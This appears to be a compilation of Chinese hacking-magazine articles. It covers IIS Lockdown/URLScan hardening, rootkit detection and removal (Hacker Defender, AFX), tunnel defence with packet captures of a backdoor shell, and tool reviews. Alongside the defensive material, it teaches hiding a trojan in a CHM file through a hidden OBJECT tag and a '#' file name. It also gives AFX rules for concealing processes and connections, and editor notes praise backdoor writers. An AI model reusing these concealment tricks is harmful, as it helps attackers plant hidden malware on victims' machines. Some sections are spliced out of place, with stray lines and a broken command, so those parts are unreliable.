- IIS Lockdown 提供了一个选项来关闭/删除这些服务中不需要的某个或者某些。
- 这点对于保证服务器的安全是很重要的。如果管理员忘记了给某个服务打补丁，并且该服务并不是必须的话，那么这就会给攻击者提供可乘之机。

### 2. 去掉不使用的文件扩展映射

- 不同的 ISAPI DLL 中的功能可以通过使用恰当的扩展名向 IIS 请求文件来调用。
- IIS 5.0 以及以前版本包含了大量一般用户也许根本没机会用到的 DLL。
- 默认扩展映射包括 .htr、.ida、.idq、.asp、.cer、.cdx、.asa、.idc、.shtm、.shtml、.stm 和 .printer。
- 最常用的是 .asp、.asa、.cer 以及 .cdx，其他如 .printer 很少使用。
- 应当取消这些不常用扩展的 DLL 映射，以减少被利用概率，且可以通过 GUI 完成配置。

### 3. 去掉所有例程脚本以及它们所在目录的映射

- 默认安装 IIS 所包含的示例脚本，对于服务器以及服务器上运行的应用程序来说是个巨大的安全威胁。
- 这些示例程序主要用于展示功能，编写往往不会遵循高级别的安全规范。
- 它们一般不会包含输入检查过程来防范恶意请求。
- 这可能导致泄露关键应用程序源代码，或者在 IIS 服务器上执行任意代码等事件。

IIS Lockdown 工具是通过取消这些示例脚本以及它们所在目录的映射来消除潜在风险的。注意，该工具并不会删除这些文件，用户在需要的情况下可以恢复这些文件。

### 4. 修改关键的文件访问许可

IIS Lockdown 会修改 Web 根目录（InetPub\wwwroot）的访问权限。这样就让匿名 IIS 用户不能创建或删除文件，也不能在这些文件中添加/删除信息，或者改变文件属性等。访问权限在安装 IIS Lockdown 之前和之后的情况为：

| 安装前 | 权限 |
|---|---|
| Everyone | Read-Only |
| NT AUTHORITY\SYSTEM | Full Control |
| BUILTIN\Administrators | Full Control |

| 安装后 | 权限 |
|---|---|
| Machine\Web Applications | DENIED DwaWE |
| Machine\Web Anonymous Users | DENIED DwaWE |
| Everyone | Read-Only |
| NT AUTHORITY\SYSTEM | Full Control |
| BUILTIN\Administrators | Full Control |

该工具同样会修改 %Windir% 目录下的文件许可。这样就防止用户远程执行如 cmd.exe、ftp.exe 和 edit.com 这样的系统自带文件。因为虽然匿名 IIS 用户不能从远程直接访问到这些文件，但是利用新出现的或者过去就存在的漏洞，仍然有办法远程执行这些命令。所以利用 IIS Lockdown 工具来删除不必要的许可，对于弥补一些漏洞带来的风险相当有效。

### 5. 解绑 WebDAV 的访问许可

Web Distributed Authoring and Versioning（WebDAV）是一种能让用户远程对 IIS Web 服务器上的文件进行操作和管理的机制。该功能是由文件 htpext.dll 提供的。IIS Lockdown 工具不允许“Everyone”组的用户对该 DLL 有执行权限，这样就降低了未授权用户上传恶意文件或者删除服务器上重要文件的风险。

虽然 IIS Lockdown 为 IIS 管理提供了许多安全方面的便利，但是它并不是一个完美的 IIS 解决方案。例如对于客户端输入数据的检查，这个 Web 服务器安全的关键部分并没有包含在 IIS Lockdown 中。恶意的 URL 可能会导致严重的安全事故。因此，我们同时还需要使用微软开发的 Urlscan（一个独立软件，而不是 IIS Lockdown 的一部分）来进一步加强服务器安全。它是一种能将请求在传给服务器处理之前，先对请求 URL 进行过滤的工具。

IIS 作为流行的服务器，其安全问题主要来自两个方面：首先，和其他 Web 服务器一样，默认安装的 IIS 出于新用户使用方便的考虑，一些权限设置并不严格，一些安全选项在默认情况下也并没打开，一些不必要的服务在默认情况下也是开启的，并且还有一些不安全的范例脚本，这些都给攻击者留下了大量可乘之机。以前要对默认安装的 IIS 进行加固处理，需要管理员手工进行一系列比较烦琐的工作。而 IIS Lockdown 提供了更好的安全配置接口，让以前对默认安装的 IIS 能够进行更方便的加固工作，这些在刚才已经做了介绍。

第二方面，Web 服务器的安全很多还在于 Web 服务器程序之上的具体应用的安全性，例如一些不必要的文件映射、过滤不严格等问题。而 UrlScan 在这里更类似一个基于主机的 Web 入侵检测系统，许多常见的 CGI 渗透攻击，都可以使用 UrlScan 来进行防范与记录。

## URLScan

许多针对 Web 服务器的攻击都需要构造恶意 URL。这些 URL 包括特别长的 URL、用其他字符集进行过编码，或者包含了一般合法请求中不会包含的字符序列。这些 URL 如果经过 IIS 服务器处理后，有可能对服务器或者服务器上的 Web 站点造成很大破坏。为了应对这些恶意 URL 带来的威胁，Microsoft 开发了一种叫做 URLScan 的工具。

正如它的名字所表示的那样，Urlscan 对所有进入的 URL 请求都进行扫描。Urlscan 会基于一些预先建立的规则对这些请求进行过滤，并只将有效数据提交给服务器进程处理。它提供了选项让管理员可以将被过滤掉的请求存储在日志文件中。

要注意的一点是，Urlscan 在 IIS 6.0 下实际用处并不大。大多数 Urlscan 提供的特性，IIS 6.0 都有提供，或者通过修改注册表键值也可以实现。因此，以下部分主要针对 IIS 5.0 以及以前版本的应用做介绍。

URLScan 包含两个关键文件：urlscan.dll 和 urlscan.ini，它们位于 %systemroot%\inetsrv\Urlscan 目录下。Urlscan.dll 是一个 ISAPI 过滤器，它是在安装 IIS Lockdown/Urlscan 后进行注册的，也可以通过 Internet 服务管理器界面进行手工注册。它会根据 Urlscan.ini 配置文件对发给 IIS 服务的所有请求进行预处理，以查找恶意输入。被拒绝的请求会被记录在 Urlscan.log 文件中，该文件与其他 Urlscan 文件位于同样的目录中。

Urlscan.ini 文件是成功防范针对 IIS 服务器攻击的关键。由于它的重要性，我们接下来会主要对这些配置进行介绍。Urlscan.ini 文件包含两个主要部分：选项和实现内容。文件中的选项部分允许用户打开或者关闭某个选项，而具体实现内容中则包含了打开选项中的实际内容。下面是选项和具体的实现。

```
选项的值为“0”或者“1”。一般来说，“1”是打开某个功能的选项，而“0”是关闭某个功能的选项；或者“1”是允许使用某些具体实现，而“0”会对具体实现中定义操作列表进行拒绝操作而允许其他默认操作。另外分号“;”用来标记 Urlscan.ini 文件中注释的开始。


```

| 配置项 | 说明 |
|---|---|
| **UseAllowVerbs**（使用允许的操作类型） | `UseAllowVerbs` 默认值为 `1`。当为 `1` 时，仅允许在 `AllowVerbs` 中指定的方法提交给 Web 服务器，其他方法被阻止；当为 `0` 时，除 `DenyVerbs` 中指定的方法外其余方法可被处理。该选项用于通过“允许列表”或“禁止列表”策略限制 HTTP 方法，降低如 `TRACE`、`PROPFIND` 等方法被利用的风险。 |
| **UseAllowExtensions**（使用允许的文件类型扩展） | 与 `AllowExtensions`、`DenyExtensions` 配合使用。`UseAllowExtensions` 默认值为 `0`：除 `DenyExtensions` 指定的扩展外其余可处理；若设为 `1`，则仅处理 `AllowExtensions` 指定扩展，其余拒绝。可防止利用扩展名绕过的攻击（如将 `.asa` 伪装为 `.htr` 等）。 |
| **NormalizeUrlBeforeScan**（在扫描前对 URL 正常化处理） | 请求到达服务器前可能经过 URL/UTF 编码（如 `%20` 代表空格）。启用后先对 URL 解码与规范化，再进行过滤扫描。默认值为 `1`，即在请求检查前执行规范化。 |
| **VerifyNormalization**（确定请求是否正常） | 用于检测多重编码绕过（如 `%255c` 等二次编码形式）。当该值为 `1`（默认）时，会对 URL 进行再次解码并比较结果；若两次结果不同，请求将被拒绝。 |
| **AllowHighBitCharacters**（允许高位字符） | 请求中可能包含非 ASCII 字符（常见于 UTF-8/国际化场景）。默认值为 `0`（不处理高位字符）；设为 `1` 时允许高位字符通过，不因非 ASCII 而直接拒绝。 |
| **AllowDotInPath**（允许路径中包含 `.`） | 用于控制路径中多点/连续点情况（如 `../`、`/images/company_logo.gif` 等场景相关规则）。默认值为 `0`，会拒绝路径中可疑的多点模式；设为 `1` 时可放宽并允许相关路径形式。 |
| **RemoveServerHeader**（去掉服务器头信息） | 默认情况下服务器会返回 `Server` 等版本标识信息。该选项默认值为 `0`（返回服务器标识）；设为 `1` 时不向客户端返回服务器名称/版本，减少信息泄露。 |
| **EnableLogging**（启动日志） | 该选项会记录与 URLScan ISAPI 有关的活动，不仅记录客户端请求，也记录 ISAPI 相关设置。默认值为 `1`（开启）；设为 `0` 则关闭日志功能。 |
| **PerProcessLogging**（对每个进程分别记录日志） | 按不同进程 ID 分别记录日志，每个进程日志独立。可用于按进程进行调试。 |
| **AllowLateScanning**（允许后扫描） | 控制 URLScan ISAPI 以高权限或低权限装载。默认 `0`（较早介入处理）；设为 `1` 时 URLScan 后装载，即在其他 ISAPI 过滤后再处理输入。 |
| **PerDayLogging**（每日日志记录） | 控制是否按天生成日志文件或循环覆盖。默认 `1`，每天生成新日志（如 12:00 AM 切分），日志名包含日期。 |
| **RejectResponseUrl**（被拒绝请求的回应页面） | 指定返回给客户端的自定义出错信息页面。 |
| **UseFastPathReject**（快速拒绝） | 与 `RejectResponseUrl` 联动。设为 `0` 时返回 `RejectResponseUrl`；设为 `1` 时可能直接返回 500，记录内容较少但处理更快。默认通常为 `1`。 |
| **AlternateServerName**（替代服务器名称） | 控制是否可修改 `Server` 头，并与 `RemoveServerHeader` 联动；在特定设置下可用该值替换 IIS 内置 `Server` 头。 |
| **DenyUrlSequences**（拒绝包含某些字符序列的 URL） | 通过列表拒绝包含指定字符序列的 URL。默认示例包含如 `..`、`/`、`\`、`%`、`&` 等，也可继续添加如 `#`、`<`、`>`、`$`、`@` 等序列。 |

### 总结

同时使用 URLScan 和 IIS Lockdown 可以防范多种针对 IIS 的攻击，但它们并不是 IIS 管理员所期望的完全安全解决方案。作为 IIS 管理员，还需要投入时间和精力处理其他安全问题。

应建立适合自身的补丁管理机制，保证 IIS 及其运行系统与补丁同步更新；并清理不必要的 DLL 以减少风险。总体而言，IIS Lockdown 与 Urlscan 能在较大程度上帮助管理员加固 IIS 服务器安全。

蝴蝶：在众多的后门工具里面，RootKit 无疑处于一个“大哥”的地位，不管是从功能上还是隐藏方式上，它都是其他后门工具所无法比拟的！基于它的特性，清除工作变得非常困难，难道我们“束手待毙”？当然不是，针对黑器攻击，特约此文，给大家讲讲如何清除它！

## 让“黑客守卫者”现出原形

文／图 D.KING
### 前言

关于 Rootkit，相信玩 HACK 技术的朋友一定很清楚这是来自 Linux 下的词语，意思是用作获得系统 root 访问权限的工具。实际上，Rootkit 是攻击者用来隐藏自己的踪迹和保留 root 访问权限的工具……今天我们要清除的是 NT 系统下的 Rootkit——HackerDefender（中文名“黑客守卫者”）……今天我们就来给大家介绍一些清除它的方法。
图1

……这是 pslist 检测出来的系统进程，看不到“黑客守卫者”073 版的 HXDEF073 进程；而 Kernel PS v0.4 的检测抓图，可以清楚看到系统中多了一个 HXDEF073 进程“黑客守卫者”073 版的进程，它的 PID 是 1048，我们用 `-k 1048` 参数杀死它，然后到目录中删除 `hxdef073.exe` 和同名 INI 文件来达到清除目的（图2）。但是现在也不能说是彻底清除，还需要在注册表中搜索并删除相关键值。
图2

## 手动检测

所需工具：Kernel PS v0.4。Kernel PS v0.4 作者是 zzzEVAzzz，程序包括 `knlps.exe` 和 `knlps.sys` 两部分，使用时需在同一目录。支持 Win2k/XP/2003 等系统。用法：在 `cmd.exe` 命令行环境下切换到 knlps 所在目录。

```bash
knlps -l      列举进程
knlps -k pid  终止指定 pid 的进程


```

这个工具不仅可以检查出“黑客守卫者”，还可以检测其他 Rootkit，功能非常强大……下面用 pslist 和 Kernel PS 分别检测中了“黑客守卫者”机器的系统进程，可以看出 pslist 完全检测不出“黑客守卫者”的存在。
图3

蝴蝶：看了《Windows 2003 下 RootKit 应用实例》一文后，大家现在是不是最关心如何清除文中的 RootKit？以及如何检测其他 RootKit？清除 RootKit 可不是件容易的事……对于以 DLL 文件形式植入到系统进程中的 RootKit（AFX RootKit 就是此类），大家可以参考另一篇文章《提高你的手工清除 DLL 后门能力》。
## RootKit 的清除与检测

### AFX RootKit 手工清除

该工具的工作原理已经在《Windows 2003 下 RootKit 应用实例》一文说过了，所以不再重复，直接给出一种最实用的清除方法，相信也是大多数朋友能想到的。

- 1. 首先找一个 Windows 2003 系统，然后把 `explorer.exe` 文件复制到本地。
- 2. 进入你的另一个系统（文中使用 FreeBSD），具体过程如下：

```bash
# mount_ntfs /dev/ad0s5 /mnt  // 挂载 C 盘
# cp /Windows/Explorer.exe Explorer.exe.bak  // 进入 mnt 目录，备份 Explorer.exe
# rm -r Explorer.exe  // 删除 Explorer.exe
# rm -r /Windows/explorer.dll  // 删除后门 DLL
# rm -r /Windows/Rootkit.exe  // 删除 Rootkit.exe
# cp Explorer.exe /Windows/Explorer.exe
# mount /mnt /  // 卸载 C 盘
```

- 3. 重新启动系统，进入 2003，删除 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下的自启动项，保存、退出，重启之后后门就清除了。如果你是 Windows 系统，相信这点问题难不倒你。

### 工具清除

所需工具：Rootkit Detector v0.3。Rootkit Detector v0.3 是非常好的 RootKit 清除软件，具有强大的检测与清除功能，可发现当前常见的危险进程和隐藏服务。

- 现在可以完美支持清除的 RootKit 有：
  - AFX Rootkit 2003
  - Hacker Defender
  - He4HookInv
  - Rkit（Backdoor.W32/ASW）
  - NT Rootkit _root_

```bash
rkd.exe
  -v   检查不正当信息
  -m   获得文件 MD5 值


```

这是一个非常简单的 RootKit 后门清除工具，在 CMD 下执行就可以完全检测系统中的不正当进程（如 Hidden Process、Hidden Services），甚至可疑后门和病毒都可以检测出来。
执行“黑客守卫者”后可以看到，Rootkit Detector v0.3 能检测并清除其进程（如 hxdef078），并报告其 MD5 值，适合新手使用。

### 检测其他 RootKit

如果通过手工检测，那真是太难了，所以这里推荐一个 RootKit 检测工具——Rootkit Detector。它通过内置的 MD5 数据库，来比较所检测 Windows 2000/XP/2003 系统全部服务和进程的 MD5 校验值，这样就可以检测出系统下的 RootKit，比如 Hacker Defender 系列版本，藏得再深也无可遁形。
呵呵，Rootkit Detector 检测出了 `explorer.dll` 存在问题，如图1所示，而这正是我们的核心文件啊！
```text
Rootkit Detector Professional 2004 v0.62
Programmed by Andres Tarasco Acuna
Usage: C:\rkdetector.exe [-v|-m]
-v  Shows Verbose Information
-m  Shows md5 checksum for filename
```

怎么样？很简单吧！`rkdetector.exe -v` 显示该工具的版本信息；`rkdetector.exe -m` 显示某个文件的 MD5 值，例如 `explorer.exe` 的 md5sum。直接运行 `rkdetector.exe` 是对当前系统进行检测，它会进行一系列初始化、检测工作，最后用红色字体显示出可疑模块。

凭借这个工具，你就可以对其进行细致的“扫荡”了，为检测 RootKit 提供了强大的支持。对于 UNIX 系统，我想 Chkrootkit 应该是其中的佼佼者，黑防以前刊登过它的使用方法，不太了解的读者可以找来看看。

### 总结

因为时间关系，本文仅做了 Windows 下 RootKit 清除方法的简要介绍。希望对新手和管理员有帮助。我们不能等被攻击后再修补，应尽快给系统打补丁并使用杀毒软件。

> 编后：其实 RootKit 并不是多么可怕，只是了解的人比较少。对于 Windows 系统，一定要抓住自启动项，这是 RootKit 不可避免要接触的突破点。本文写得比较浅，旨在抛砖引玉。

| 难度等级 | 中 |
|---|---|
| 前置知识 | 网络协议基础知识 |

蝴蝶：看了《突破防火墙的利器——隧道攻击》一文之后，是不是觉得隧道很有意思？其实这都是当初在设计 TCP/IP 时没有考虑到的缺陷。下面我们就一起来看看如何对隧道攻击进行有效的防御，希望能对大家有所启发！

## 突破防火墙的利器：隧道防御

### ICMP

对于利用 ICMP 协议实现的隧道，我们无非是要把所有的 ICMP TYPE 禁止。针对这一点来说，普通软件防火墙的默认安全级别都无能为力，原因在攻击篇中已经说过，必须把安全级别修改到“高级”方能阻止 ICMP 协议。这样利用 ICMP 协议实现的隧道就无用武之地了。同理，把所有的 ICMP TYPE 禁止了，Ping 这个工具自然就“失效”了，因为你已经收不到任何错误报文（可达、主机不可达等等）。而且基于 ICMP 协议的 Tracert 工具也会失效，何去何从，就由你自己选择吧。下面给出 ICMP TYPE 的详细列表，以便大家参考。

| Type 值 | ICMP 信息说明 |
|---|---|
| 0 | Echo Reply（回声答复） |
| 3 | Destination Unreachable（目的地无法到达） |
| 4 | Source Quench（来源抑制） |
| 5 | Redirect（更改方向） |
| 8 | Echo Request（回声请求） |
| 11 | Time exceeded（超时传输） |
| 12 | Parameter Problem message（参数问题信息） |
| 13 | Timestamp Request（时间标记请求） |
| 14 | Timestamp Reply（时间标记答复） |
| 15 | Information Request（信息请求） |
| 16 | Information Reply（信息答复） |
| 17 | Address Mask Request（地址屏蔽请求） |
| 18 | Address Mask Reply（地址屏蔽答复） |

```text
Microsoft Windows 2000 [Version 5.00.2195]
(C) 1985-2000 Microsoft Corp.
C:\WINNT\system32> // 目标→本地，Shell 执行成功
TYPE 8,0
ICMP 192.168.0.30->192.168.0.1 Bytes=5 TTL=128 Type:15,16 ID=284 SEQ=54321
Exit // 本地→目标，退出 Shell 会话，TYPE:15,16
...
ICMP 192.168.0.1->192.168.0.30 Bytes=42 TTL=128 Type:8,0 ID=728 SEQ=54321
Exit Upkiller's RootKit SuccessGoodBye. // 成功退出
```

注：省略了一些确认和欢迎信息。

### TCP、UDP

对于使用 TCP 协议和 UDP 协议实现隧道，确实没有一个行之有效的办法来防御。因为你只要提供服务，就必须会打开相应的端口，所以我们只有“被动”的方式来防御隧道攻击。首先，要确保服务器的安全，这是最起码的条件。因为要实现隧道，必须给目标种下服务端……如果你能保证服务器的安全，完全不给入侵者机会；再者，隧道是通过数据包实现的，所以我们可以通过嗅探（Sniffer）抓取数据包来发现蛛丝马迹。我想这也是防御隧道攻击最好的方法了。在 Windows 下可以使用 Windows 2000 自带的网络监视器；在 UNIX 下比较流行的也就是 TCPDump 了，其使用方法网上已经很多了，这里就不再说了。下面以攻击篇中（UpKiller）的 ICMP 隧道和 TCP 隧道抓包为例进行分析，大家就可以很清楚地看到整个过程了。

### TCP

```text
TCP 192.168.0.30->192.168.0.1 Port:445->1080 Bytes=41 TTL=128 Len=80 ---A--- UpKiller will open Upkiller's back door.
// 本地445->目标1080，标志位 ACK，请求打开后门程序
TCP 192.168.0.1->192.168.0.30 Port:1080->445 Bytes=29 TTL=128 Len=80 ---R--- UpKillerOK,Back door is Open.
...
TCP 192.168.0.1->192.168.0.30 Port:1080->445 Bytes=13 TTL=128 Len=80 ---A--- UpKiller exit.
// 本地445->目标1080，标志位 ACK，退出 Shell 会话
...
TCP 192.168.0.1->192.168.0.30 Port:1080->445 Bytes=50 TTL=128 Len=80 ---R--- UpKillerExit Upkiller's RootKit SuccessGoodBye.
```

### ICMP

```text
ICMP 192.168.0.30->192.168.0.1 Bytes=33 TTL=128 Type:15,16 ID=284 SEQ=54321
I will open Upkiller's back door. // 本地→目标，请求打开后门程序，TYPE:15,16
...
ICMP 192.168.0.1->192.168.0.30 Bytes=21 TTL=128 Type:8,0 ID=728 SEQ=54321
OK,Back door is Open. // 目标→本地，成功打开，TYPE:8,0
...
ICMP 192.168.0.1->192.168.0.30 Bytes=6 TTL=128 Type:15,16 ID=284 SEQ=54321
Shell // 本地→目标，请求 Shell 命令
...
```

怎么样？看了上面的信息，是不是一切都很清楚了？现在，隧道工具无所遁形了吧？

> 最后的忠告：如果你是一个网络管理员，并且有条件配备硬件防火墙和网络入侵检测系统（NIDS）的话，建议最好配备上。因为它们的设计技术先进，并且特征库非常全面，可以很好地过滤数据包，是防范隧道攻击的一把尖刀。网络安全就是这样，攻与防永远是对立的；最后，别忘记我们《黑客防线》的口号：在攻与防的对立统一中寻求突破！

蝴蝶：作为一名网管，阅读分析事件日志是每天必不可少的工作。但在一个局域网中，网管大多都要掌管服务器，并不直接操作客户端机器。如果需要对网内所有客户端机器的事件日志进行统计分析、审查网络安全隐患，那么一台一台机器地去收集日志，将是一个烦琐的工作，那如何来解决呢？

## EMCO Eventlog 让网管更轻松

文/图：安全天使·晓风·浅月

日志对于系统安全分析具有重要意义。EMCO Eventlog Audit 1.0 是一款在局域网内扫描、保存、处理事件日志数据的日志审计工具。它可以在局域网内收集并保存所有能找到的机器的事件日志数据，例如事件 ID、类型、种类、来源、用户 SID 等；还可以在预定时间内对目标电脑的日志文件进行收集，让网管工作更轻松。EMCO Eventlog Audit 可以通过扫描域或工作组快速添加机器，也可手动添加目标机器，并可随网络结构变化及时更新。

通过这些设置，我们可以按需要建立扫描机制，让 EMCO Eventlog Audit 高效自动完成工作。你外出时也能通过 E-mail 发现关键事件，不必一直守在电脑前刷新日志。可描述一般或特殊事件作为告警条件（如图2）。前文提到的功能在实际操作中可快速定位指定时间段、指定系统事件 ID（如图3），并可通过图表统计及打印功能形成报告。

- **Include Options**：选择要收集的事件信息，如应用事件、安全事件、系统事件。
- **Custom Event Log**：扫描自定义事件，如 MS Exchange 或 MS SQL Server 输出。
- **After Read Event Log**：扫描完日志后执行动作，如删除对方日志或备份到指定位置。
- **On Disconnect**：扫描完后移除扫描网络机器上的 DCOM 服务（必要时自动安装/检查）。
- **Custom Logon**：在所有机器上使用统一账号密码进行管理权限访问。
- **Auto Fetch**：指定时间激活自动抓取。
- **Auto Update**：指定时间后激活自动更新。
- **Alert Options**：快速扫描后列出新警示。
- **Email New Alerts**：快速扫描后邮件发送新警示，可配置 E-mail 地址、SMTP Server 与附件类型。

EMCO Eventlog Audit 还提供了图表展示、分类统计、打印输出等功能，便于向主管汇报并据此调整网络机器。它让网管即使主要在服务器端工作，也能清楚掌握各终端运行状况，减少人工巡检成本，是局域网事件日志管理的实用工具。

## RootKit 终极侦查术

文/图：罗罗

Rootkit 出现于 20 世纪 90 年代初。从出现至今，Rootkit 的技术发展非常迅速，应用越来越广泛，检测难度也越来越大。其中特别对 SunOS 和 Linux 两种操作系统的 Rootkit 最多（树大招风嘛）。所有的 Rootkit 基本上都是由几个独立的程序组成的。

- 以太网嗅探器程序，用于获得网络上传输的用户名和密码等信息。
- 特洛伊木马程序，例如 inetd 或者 login，为攻击者提供后门。
- 隐藏攻击者目录和进程的程序，例如 ps、netstat、rshd 和 ls 等。
- 可能还包括一些日志清理工具，例如 zap、zap2 或者 z2，攻击者使用这些清理工具删除 wtmp、utmp 和 lastlog 等日志文件中有关自己行踪的条目。
- 一些复杂的 Rootkit 还可以向攻击者提供 telnet、shell 和 finger 等服务。

生成文件 186KB，没有加壳。它支持 Windows 95/98/Me/NT/2000/XP/2003 等系统。

### 【必要性】

只有使你的网络非常安全、让攻击者无隙可乘，才能使自己的网络免受 Rootkit 的影响。你能保证自己的系统永远安全吗？不可能，所以学会检测就成为必要了。下面将演示 Rootkit 的生成，并将其检测出来。

### 【AFX 简介】

针对中国广大的 Windows 用户，下面我们以 AFX Windows Rootkit 2003（下面简称为 AFX）软件为例。AFX 是一个非服务级的 Rootkit，在登录之前没有 ROOT 掉，因而也不算是好后门吧，没有什么功能。但是我们知道，入侵者留下后门后进行隐藏显得极其重要，这个 Rootkit 就有这样的功能。

AFX 可以隐藏 Processes（进程）、Files（文件）、Registry（注册表项）、Connections（网络连接），生成的文件可用于配置隐藏规则。

### 【使用方法】

在 AFX 的界面中间空白处点击 HELP，可以得到英文提示信息。

- 进程类型（Process Format）：`<文件名>.<属性>`，例：`~~*`（隐藏所有以 ~~ 开头的进程）、`*.exe`（隐藏所有 exe 进程）。
- 文件类型（File Format）：`<文件名>.<属性>`，例：`~~*`（隐藏所有以 ~~ 开头的文件）、`*.exe`（隐藏所有 exe 文件）。
- 注册类型：文件名，例：`~~*`（隐藏所有以 ~~ 开头的键值）、`*file*`（隐藏所有包含字符 file 的键值）。
- 连接类型：`*协议*本地地址:端口*远程地址:端口*`，例：`*TCP*`（隐藏所有 TCP 连接通信）、`*24.44.105.33*`（隐藏来自 24.44.105.33 的通信）、`*TCP*:80*.*`（隐藏所有 80 端口通信）。

比如我们要隐藏 QQ 这个程序，我们只需要在 PROCESS 的空白栏中间点右键，输入 QQ.exe，接着……

## 巧用 Agnitum Outpost 阻断扫描与广告

| 项目 | 内容 |
|---|---|
| 软件名称 | Agnitum Outpost Firewall Pro |
| 软件性质 | 共享软件 |
| 文件大小 | 7.82M |
| 最近版本 | 2.303.314 |
| 操作系统 | 9X/NT/2K/XP |
| 语言界面 | 英文 |
| 下载地址 | http://pchome.96590.net/php/tdownload2.php?sid=12108&url=/internet/safe/OutpostPro21303.exe&svr=1&typ=0 |

在网上，计算机被攻击以端口扫描和 DoS 攻击为常见。要抵御这些威胁，可借助 AO 的 Attack Detection 插件加强防护。文中给出设置建议：进入插件设置后调整警戒级别（一般 Normal 即可），勾选在一定时间内封锁入侵者 IP、同时封锁入侵子网，并启用检测到远程攻击时阻断本地端口等选项，以提升对扫描与 DoS 的防御能力。

网页垃圾广告会占用带宽并影响浏览。AO 的 Advertisement Blocking 可通过多种方式过滤：过滤广告链接、维护可编辑黑名单、启用桌面“垃圾桶”图标拖拽屏蔽链接，以及按图片尺寸进行规则过滤等。配置后可显著减少页面广告干扰。除此之外，AO 还提供导入/导出配置、在线测试、自动升级、日志记录等功能。

文中进一步说明了通过 Rootkit 手段隐藏进程文件的现象：生成特定文件后，原程序在进程中可能不可见；同类方法也可用于木马隐藏。但这类隐藏具有风险，可能导致程序异常甚至系统不稳定。

### 【Root 的检测】

检测部分推荐使用 Kernel PS v0.4（可从 xfocus 工具下载）。该工具包含可执行文件与系统文件两部分。将程序解压到指定目录后运行命令，可枚举隐藏进程，从而发现被 Rootkit 隐藏的对象。

### 【查杀方法】

```bash
knlps -k PID
```

可通过上述命令强制终止目标进程。文中还以程序报错示例说明 Rootkit 可能带来的副作用与破坏性。

清除 Rootkit 往往较复杂。类 Unix 系统在严重感染时常需重装或恢复备份；Windows 场景下，清除受感染文件后系统通常可恢复。最后强调应加强安全意识，及时更新防火墙、杀毒软件与系统补丁，以降低 Rootkit 入侵风险。

## 巧妙防止 CHM 反编译

文/icyfoxlovelace/冰狐浪子

还记得《CHM 木马也疯狂》这篇文章吗？……为了你的安全，俺今天再教你一个绝招，防止别人找出你辛辛苦苦藏在 CHM 中的小木马！

大家想必听说过为防止数据库被下载而在数据库名称中加入“#”号的方法……偶然测试发现，制作 CHM 时若文件名含“#”，该文件不会被“HTML Help Workshop”反编译功能导出。

```bash
hh.exe -decompile 反编译后保存的目录 要进行反编译的文件.chm
```

例如：`hh.exe -decompile icyfox icyfox.chm`，就是把“icyfox.chm”反编译后保存在“icyfox”目录中。

调用或连接时，要把含“#”号文件名中的“#”替换为“%23”才可以。比如把“Window按钮突破专家.exe”改为“icyfox#lovelace.exe”。

```html
<OBJECT Width=0 Height=0 style='display:none;' TYPE='application/x-oleobject' CODEBASE='Window按钮突破专家.exe'></OBJECT>

改为：

<OBJECT Width=0 Height=0 style='display:none;' TYPE='application/x-oleobject' CODEBASE='icyfox%23lovelace.exe'></OBJECT>
```

在重新编译后再反编译查看，原文件“icyfox#lovelace.exe”难以被直接导出……至少在不了解 CHM 详细保存格式前，需用手工检查方式查找隐藏文件。

## JPG 漏洞击溃测网7

DvBBS 7.0 SP2 论坛的短信漏洞可结合多种技术利用……网络上已经出现专门针对这个漏洞的利用程序，如图1所示。

这个程序的关键是 Cookie 的抓取和发送内容构造，建议使用 WS 抓取 Cookie 并填写 MHTML 利用代码，等待对方回复后进行后续操作。

| 难度等级 | 低 |
|---|---|
| 适合读者 | 后门工具爱好者、入侵爱好者 |
| 配置知识 | 无 |

蝴蝶：下文是讲述如何手工清理 Hxdef 的方法，很巧妙。虽然 Hxdef 就这样被干掉了，但我们心里还是高兴不起来，毕竟它是个超级后门，不知道以后后门还能通过什么方法来躲避查杀？唉！希望写后门的大牛们再接再厉，不要被这点小小的挫折打倒，继续前进，为我们创造更多更好的后门。虽然 Hxdef 就这样被征服了，但是我们不得不承认 Hxdef 作者很牛，也不能不承认 Hxdef 仍然是后门中的终极武器，可悲的是，它居然也有致命伤……

谈起 Hxdef 我们都不禁要挑起大拇指，把它叫做后门中的终极武器绝对不过分。它能够做到什么都隐藏，而且隐藏得非常巧妙，很难找，这确实已经达到了后门中的某种境界——Rootkit。说到这里不得不佩服 Hxdef 的作者，真是个大“牛”啊。他的程序中居然把所有有可能被发现的 API 全都 Hook 了，不信请看如下列表：

```text
Kernel32!ReadFile
Ntdll!NtQuerySystemInformation (class 5,a16)
Ntdll!NtQueryDirectoryFile
Ntdll!NTVdmControl
Ntdll!NtResumeThread
Ntdll!NtEnumerateKey
Ntdll!NtEnumerateValueKey
Ntdll!NtReadVirtualMemory
Ntdll!NtQueryVolumeInformationFile
Ntdll!NtDeviceIoControlFile
Ntdll!NtLdrLoadDll
Ntdll!NtOpenProcess
Ntdll!NtCreateFile
Ntdll!NtLdrInitializeThunk
WS2_32.recv
WS2_32.WSARecv
Advapi32.EnumServiceGroupW
Advapi32.EnumServicesStatusExW
Advapi32.EnumServicesStatusExA
Advapi32.EnumServicesStatusA
```

看看吧，从服务到进程、从端口到文件、从注册表到内存都做了文章，难怪很多杀毒软件只能查，不能杀，拿它一点办法也没有。最近我也装了一个 Hxdef100 想看一下效果。在装之前我先把注册表做了一个快照，存在 1.hiv 中，目的就是为了看看它修改了哪些键值和驻留路径。

> 在研究某些隐蔽程序的时候，使用注册表和系统快照的方法是最好的。一方面可以跟踪程序对注册表的更改，另一方面还可以抓住在程序暗藏下“繁衍”出来的小东西，对还原系统和病毒查杀有莫大好处。推荐使用 Snapshot 做快照。

在做完快照之后，我对它的配置文件进行了简单改写，然后就双击 Hxdef100.exe 将它装了上去。先来验证一下程序是不是装了上去，拿出我们用来查看 Hxdef 的武器 Rkdetector，这个工具可以在 www.xfocus.net 上下载。进入命令行，执行 rkdetector.exe，得到如下结果：

```text
Searching for Rootkit Modules......
*SUSPICIOUS MODULE! c:\winnt\system32\imm32.dll @name [bor]
*SUSPICIOUS MODULE! c:\winnt\system32\psapi.dll @round mode
*SUSPICIOUS MODULE! rkdetector\rkdetector.exe [up to 8]
*SUSPICIOUS MODULE! rkdetector\rkdetector.exe
Trying to detect hxdef with TCP data... (Found 1 running rootkits)
*ROOTKIT HACKER DEFENDER v1.00 IS INSTALLED IN YOUR HOST
Searching for hxdef hooks...... (Found 1 running rootkits)
/*注意这里*/
*ROOTKIT HACKER DEFENDER >= v0.82 FOUND. Path not available
